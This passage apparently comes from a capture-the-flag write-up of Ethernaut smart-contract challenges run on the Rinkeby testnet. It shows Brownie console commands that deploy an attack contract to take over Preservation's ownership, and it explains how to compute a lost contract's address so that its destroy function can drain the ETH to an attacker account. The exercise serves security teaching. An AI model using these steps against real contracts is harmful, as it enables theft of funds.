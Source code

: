 - `brownie console --network rinkeby`
```bash
>>> challenge_address = '...'

>>> challenge = Preservation.at(challenge_address)

>>> challenge.owner()
'0x97E982a15FbB1C28F6B8ee971BEc15C78b3d263F'

>>> preservationAttack = PreservationAttack.deploy(challenge_address, {'from': hacking_account})

>>> preservationAttack.attack()

>>> challenge.owner() # checking new owner
```

### 17. Recovery
- The challenge contract is Recovery contract which created from SimpleToken contract
- If we know the simpleToken contract address, we can call its destroy function and recover eth

- How to find that address?
  - Compute the address
  
    We created a challenge instance, get that instance address from browser console `challenge_address`. That instance would then create new `SimpleToken` contract. We can compute that contract address.
    
    According to [this](https://ethereum.stackexchange.com/questions/760/how-is-the-address-of-an-ethereum-contract-computed), the address for an Ethereum contract is deterministically computed from the address of its creator (sender) and how many transactions the creator has sent (nonce). The sender and nonce are RLP encoded and then hashed with Keccak-256.
    ```python
    sha3(rlp.encode([normalize_address(sender), nonce]))[12:]
    ```
    Code implementation `scripts/17_Recovery/get_contract_address.py`

  - How does it look like on Etherscan?

- `brownie console --network rinkeby`

```bash
>>> contract_address = run('scripts/17_Recovery/get_contract_address.py')
Running 'scripts/17_Recovery/get_contract_address.py::main'...
contract address is: 0xb5cc1eE21d2DFB70764B9cE74443F182Dc794c75

>>> simpleToken = SimpleToken.at(contract_address)
>>> simpleToken.name()
'InitialToken'

>>> web3.eth.getBalance(simpleToken.address)/1e18
0.001

>>> simpleToken.destroy(hacking_account.address, {'from': hacking_account})

>>> web3.eth.getBalance(simpleToken.address)/1e18
0.0

```
